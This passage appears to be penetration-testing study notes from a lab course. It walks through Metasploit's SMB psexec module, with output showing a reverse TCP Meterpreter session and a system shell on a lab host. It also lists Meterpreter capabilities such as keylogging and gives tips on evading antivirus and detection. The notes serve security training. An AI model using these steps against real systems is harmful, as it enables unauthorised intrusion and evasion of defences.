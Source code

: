         ```
        
    6. **Run Exploit**:
        
        ```bash
        exploit
        
        ```
        
        - Output:
            
            ```
            [*] Started reverse TCP handler on 10.10.14.222:4444
            [*] 10.129.180.71:445 - Connecting to the server...
            [*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
            [*] 10.129.180.71:445 - Executing the payload...
            [*] Sending stage (175174 bytes) to 10.129.180.71
            [*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675)
            
            ```
            
        - Outcome: Meterpreter session established.
    7. **Interact with Shell**:
        
        ```bash
        shell
        
        ```
        
        - Drops to system shell: `C:\WINDOWS\system32>`.

## Meterpreter Features

- **Stealth**: Uses in-memory DLL injection.
- **Commands**:
    - File upload/download, process management, keylogging, service control.
    - List commands: `?`.
- **Limitations**: Limited command set; use `shell` for full system access.

## Module Details: `exploit/windows/smb/psexec`

- **Function**: Uses valid admin credentials to execute a payload via SMB.
- **Features**: Similar to Sysinternals’ `psexec`, with cleanup capabilities.
- **Payload**: `windows/meterpreter/reverse_tcp` for reverse shell.

## Notes for CAT5 Security Assessment

- **Objective**: Use MSF to deliver payloads and establish shells.
- **Challenges**:
    - Identify vulnerabilities (e.g., SMB) via recon (Nmap).
    - Configure MSF modules accurately (e.g., correct `RHOSTS`, `LHOST`).
    - Ensure payloads bypass AV and firewalls.
- **Tips**:
    - Use `search` and `options` to select and configure modules.
    - Practice in Pwnbox to master MSFconsole and `msfvenom`.
    - Document module configurations and exploit outputs.
    - Understand payload behavior to avoid detection or system disruption.
